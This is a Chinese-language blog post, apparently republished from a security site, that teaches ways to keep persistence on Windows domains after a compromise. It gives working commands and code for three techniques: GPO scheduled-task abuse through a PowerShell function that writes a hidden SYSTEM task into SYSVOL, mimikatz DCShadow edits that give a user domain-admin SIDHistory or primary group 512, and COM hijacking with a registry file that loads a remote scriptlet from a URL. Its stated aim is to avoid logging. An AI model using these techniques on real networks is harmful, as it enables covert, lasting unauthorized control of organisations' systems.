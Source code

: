 > 原文链接: https://www.anquanke.com//post/id/171528 


# Windows 下的权限维持


                                阅读量   
                                **232586**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">2</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p4.ssl.qhimg.com/t015513ed98bf4fcdde.jpg)](https://p4.ssl.qhimg.com/t015513ed98bf4fcdde.jpg)



## 0x00 前言

在完成一个前期的渗透测试，获取到最高权限过后，后面最主要的任务就是，对目标的权限维持，方便对目标的持续性控制。本文就简单介绍几种常用的权限维持的方法。



## 0x01 GPO

​ **GPO介绍：**组策略保存为组策略对象（GPO），然后将其与Active Directory对象（如站点，域或组织单位（OU））相关联。组策略可以包括安全选项，注册表项，软件安装，启动和关闭脚本以及域成员刷新组策略设置（默认情况下每隔90分钟一次）（域控制器为5分钟）。这意味着组策略在目标计算机上强制执行配置的设置。在大多数Active Directory实现中，在域上至少配置了一个GPO，用于定义强制密码，Kerberos和域范围策略;至少一个为域控制器OU配置的GPO;至少为服务器和工作站OU配置了一个GPO。这两个GPO的名称都一样，但是ObjectID是不一样的。

[![](https://p1.ssl.qhimg.com/t01b53076d4bb3ababe.png)](https://p1.ssl.qhimg.com/t01b53076d4bb3ababe.png)

所以我们可以给一个普通域用户赋予DC的sysvol完全控制权限，修改文件做到命令执行的效果，以此来达到权限维持。

先给普通用户加给权限：

```
icacls C:WindowsSYSVOLsysvolhack.com /grant lemo:"(OI)(CI)(F)" /t
```

[![](https://p1.ssl.qhimg.com/t0199ed5378b34f960f.png)](https://p1.ssl.qhimg.com/t0199ed5378b34f960f.png)

我这里使用powershell把文件复制到上面，使用默认有的domain policy，修改ScheduledTasks.xml是不会执行的：

[![](https://p2.ssl.qhimg.com/t011033b208e4e9638f.png)](https://p2.ssl.qhimg.com/t011033b208e4e9638f.png)

假设原来域中就有执行计划任务的GPO（这里可以使用powerview里面的[New-GPOImmediateTask](https://github.com/PowerShellMafia/PowerSploit/blob/26a0757612e5654b4f792b012ab8f10f95d391c9/Recon/PowerView.ps1#L5907)来创建），我们再来修改这个文件，重启或者等90分钟就可以执行其中的计划任务命令了：

[![](https://p4.ssl.qhimg.com/t018f4b5fb5973d2882.png)](https://p4.ssl.qhimg.com/t018f4b5fb5973d2882.png)

[![](https://p2.ssl.qhimg.com/t012921ee873edc1d95.png)](https://p2.ssl.qhimg.com/t012921ee873edc1d95.png)

powershell代码：

```
&lt;#
icacls C:WindowsSYSVOLsysvoltest.com /grant test1:"(OI)(CI)(F)" /t
icacls C:WindowsSYSVOLsysvoltest.com /remove test1 /t
#&gt;

function Set-ScheduleXml`{`
        [CmdletBinding()]

    Param (
        [Parameter(Mandatory = $True)]
        [String]
        [ValidateNotNullOrEmpty()]
        $GpoTaskXMLPath,

        [String]
        [ValidateNotNullOrEmpty()]
        $Cmd
    )

    $schedulexml = '&lt;?xml version="1.0" encoding="utf-8"?&gt;&lt;ScheduledTasks clsid="`{`CC63F200-7309-4ba0-B154-A71CD118DBCC`}`"&gt;&lt;ImmediateTaskV2 clsid="`{`9756B581-76EC-4169-9AFC-0CA8D43ADB5F`}`" name="Debugging" image="0" changed="2019-01-20 06:02:04" uid="`{`9ccbe17e-5c25-4c68-a010-93f0420512ba`}`" userContext="0" removePolicy="0"&gt;&lt;Properties action="C" name="Debugging" runAs="NT AUTHORITYSystem" logonType="InteractiveToken"&gt;&lt;Task version="1.3"&gt;&lt;RegistrationInfo&gt;&lt;Author&gt;NT AUTHORITYSystem&lt;/Author&gt;&lt;Description&gt;&lt;/Description&gt;&lt;/RegistrationInfo&gt;&lt;Principals&gt;&lt;Principal id="Author"&gt;&lt;UserId&gt;NT AUTHORITYSystem&lt;/UserId&gt;&lt;RunLevel&gt;HighestAvailable&lt;/RunLevel&gt;&lt;LogonType&gt;InteractiveToken&lt;/LogonType&gt;&lt;/Principal&gt;&lt;/Principals&gt;&lt;Settings&gt;&lt;IdleSettings&gt;&lt;Duration&gt;PT10M&lt;/Duration&gt;&lt;WaitTimeout&gt;PT1H&lt;/WaitTimeout&gt;&lt;StopOnIdleEnd&gt;true&lt;/StopOnIdleEnd&gt;&lt;RestartOnIdle&gt;false&lt;/RestartOnIdle&gt;&lt;/IdleSettings&gt;&lt;MultipleInstancesPolicy&gt;IgnoreNew&lt;/MultipleInstancesPolicy&gt;&lt;DisallowStartIfOnBatteries&gt;false&lt;/DisallowStartIfOnBatteries&gt;&lt;StopIfGoingOnBatteries&gt;true&lt;/StopIfGoingOnBatteries&gt;&lt;AllowHardTerminate&gt;false&lt;/AllowHardTerminate&gt;&lt;StartWhenAvailable&gt;true&lt;/StartWhenAvailable&gt;&lt;AllowStartOnDemand&gt;false&lt;/AllowStartOnDemand&gt;&lt;Enabled&gt;true&lt;/Enabled&gt;&lt;Hidden&gt;true&lt;/Hidden&gt;&lt;ExecutionTimeLimit&gt;PT0S&lt;/ExecutionTimeLimit&gt;&lt;Priority&gt;7&lt;/Priority&gt;&lt;DeleteExpiredTaskAfter&gt;PT0S&lt;/DeleteExpiredTaskAfter&gt;&lt;RestartOnFailure&gt;&lt;Interval&gt;PT15M&lt;/Interval&gt;&lt;Count&gt;3&lt;/Count&gt;&lt;/RestartOnFailure&gt;&lt;/Settings&gt;&lt;Actions Context="Author"&gt;&lt;Exec&gt;&lt;Command&gt;powershell&lt;/Command&gt;&lt;Arguments&gt;-c "powershellcmd"&lt;/Arguments&gt;&lt;/Exec&gt;&lt;/Actions&gt;&lt;Triggers&gt;&lt;TimeTrigger&gt;&lt;StartBoundary&gt;%LocalTimeXmlEx%&lt;/StartBoundary&gt;&lt;EndBoundary&gt;%LocalTimeXmlEx%&lt;/EndBoundary&gt;&lt;Enabled&gt;true&lt;/Enabled&gt;&lt;/TimeTrigger&gt;&lt;/Triggers&gt;&lt;/Task&gt;&lt;/Properties&gt;&lt;/ImmediateTaskV2&gt;&lt;/ScheduledTasks&gt;'
    $schedulexml = $schedulexml.Replace('powershellcmd', $cmd)

    $TaskXMLPath = $GpoTaskXMLPath + '/ScheduledTasks.xml'  
    $schedulexml | Set-Content -Encoding ASCII -Path $TaskXMLPath
`}`

 Set-ScheduleXml -GpoTaskXMLPath '\hackdcSYSVOLhack.comPolicies`{`595D4D1F-5018-413D-8177-DE7089C40117`}`UserPreferencesScheduledTasks' -Cmd 'ipconfig /all|out-file c:tempnew.txt'
```



## 0x02 用户对象属性

通过修改dcshadow的方式修改SIDHistory，所控制的windows必须关闭防火墙:

```
lsadump::dcshadow /object:lemo /attribute:sidhistory /value:S-1-5-21-1863527717-1245757989-2975568438-500
lsadump::dcshadow /push
```

[![](https://p5.ssl.qhimg.com/t014aa1bcb5650022c2.png)](https://p5.ssl.qhimg.com/t014aa1bcb5650022c2.png)

修改之后的lemo用户属性：

[![](https://p4.ssl.qhimg.com/t0137aec3c610c8039e.png)](https://p4.ssl.qhimg.com/t0137aec3c610c8039e.png)

Primarygroupid:

```
先移除sidhistory:
Set-ADUser -Identity lemo -Remove @`{`SIDHistory='S-1-5-21-1863527717-1245757989-2975568438-500'`}`
lsadump::dcshadow /object:lemo /attribute:primarygroupid /value:512
lsadump::dcshadow /push
```

[![](https://p5.ssl.qhimg.com/t01e30c6ca314afca6c.png)](https://p5.ssl.qhimg.com/t01e30c6ca314afca6c.png)



## 0x03 COM劫持

什么是COM对象：COM（组件对象模型）被Microsoft描述为“独立于平台，分布式，面向对象的系统，用于创建可以交互的二进制组件”。 该技术的目的是提供一个接口，允许开发人员控制和操纵其他应用程序的对象。 每个COM对象都由一个名为CLSID的唯一ID定义。 例如，用于创建Internet Explorer实例的CLSID是`{`0002DF01-0000-0000-C000-000000000046`}`。大多数COM类都在操作系统中注册，并由表示注册表中的类标识符（CLSID）的GUID标识（通常在HKCR CLSID或HKCU Software Classes CLSID，HKLMSOFTWAREClassesCLSID下）。

列出当前所有的COM对象：

[![](https://p0.ssl.qhimg.com/t01965f6ef3c45c1754.png)](https://p0.ssl.qhimg.com/t01965f6ef3c45c1754.png)

这里还有各种系统的常见COM对象：

```
https://github.com/ohpe/juicy-potato/tree/master/CLSID
```

关于clsid中键值的意义：`http://www.cnblogs.com/developersupport/archive/2013/06/02/COM-registry.html`

在COM类的实现背后是在CLSID下的注册表项中LocalServer32键表示可执行（exe）文件的路径，InprocServer32键表示动态链接库（DLL）文件的路径，并且HKCU中的CLSID值优先于HKLM中的CLSID。所以利用下面这个[reg文件](https://github.com/api0cradle/LOLBAS/blob/master/OSScripts/Payload/Slmgr.reg)注册一个COM对象：

```
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USERSoftwareClassesScripting.Dictionary]
@=""

[HKEY_CURRENT_USERSoftwareClassesScripting.DictionaryCLSID]
@="`{`00000001-0000-0000-0000-0000FEEDACDC`}`"


[HKEY_CURRENT_USERSoftwareClassesCLSID`{`00000001-0000-0000-0000-0000FEEDACDC`}`]
@="Scripting.Dictionary"

[HKEY_CURRENT_USERSoftwareClassesCLSID`{`00000001-0000-0000-0000-0000FEEDACDC`}`InprocServer32]
@="C:\WINDOWS\system32\scrobj.dll"
"ThreadingModel"="Apartment"

[HKEY_CURRENT_USERSoftwareClassesCLSID`{`00000001-0000-0000-0000-0000FEEDACDC`}`ProgID]
@="Scripting.Dictionary"

[HKEY_CURRENT_USERSoftwareClassesCLSID`{`00000001-0000-0000-0000-0000FEEDACDC`}`ScriptletURL]
@="https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSScripts/Payload/Slmgr_calc.sct"

[HKEY_CURRENT_USERSoftwareClassesCLSID`{`00000001-0000-0000-0000-0000FEEDACDC`}`VersionIndependentProgID]
@="Scripting.Dictionary"
```

[![](https://p5.ssl.qhimg.com/t01caa24e9a8e4e19e4.gif)](https://p5.ssl.qhimg.com/t01caa24e9a8e4e19e4.gif)

实际渗透中可以自己创建一个COM对象，但一般都是寻找到机器上一个可用的COM对象或者直接修改已有的对象。然后找到一个COM调用的DLL文件是不存在的，然后放入自己的DLL文件，每次调用那个COM时，你的DLL就会执行。判断文件是否存在：

```
$inproc = gwmi Win32_COMSetting | ?`{` $_.LocalServer32 -ne $null `}`
$LocalServer32paths = $inproc | ForEach `{`$_.LocalServer32`}` 
foreach ($p in $LocalServer32paths)`{`$p;cmd /c dir $p &gt; $null`}`

$InprocServer32paths = $inproc | ForEach `{`$_.InprocServer32`}`
foreach ($pi in $InprocServer32paths)`{`$pi;cmd /c dir $pi &gt; $null`}`
```

COM组件也用来做其他的事比如UAC的绕过等，可以看三好学生的[Use-COM-objects-to-bypass-UAC](https://github.com/3gstudent/Use-COM-objects-to-bypass-UAC) 。或者是使用windows的库文件：[Abusing Windows Library Files for Persistence](https://www.countercept.com/blog/abusing-windows-library-files-for-persistence/) 。[第一百一十三课：COM%20Hijacking.pdf](https://github.com/Micropoor/Micro8/blob/master/%E7%AC%AC%E4%B8%80%E7%99%BE%E4%B8%80%E5%8D%81%E4%B8%89%E8%AF%BE%EF%BC%9ACOM%20Hijacking.pdf)



## 0x04 总结

​ 还有一些方法就没有介绍了，例如黄金票据和白银票据，修改注册表，GPO的ACL等，本文就只是大致介绍几种方法，没有介绍关于利用安装的应用程序，例如exchange,office等软件这些的权限维持方法，或者关于域下的方法，利用约束性委派，修改DACL的方式等。当然权限维持的目标都是利用白名单，尽量少被记录日志。可以再推荐大家看下hexacorn的[how-to-find-new-persistence-tricks](http://www.hexacorn.com/blog/2018/10/14/how-to-find-new-persistence-tricks/)，[beyond-good-ol-run-key-part-32](http://www.hexacorn.com/blog/2015/09/12/beyond-good-ol-run-key-part-32/)，[beyond-good-ol-run-key-part-28](http://www.hexacorn.com/blog/2015/02/23/beyond-good-ol-run-key-part-28/)。
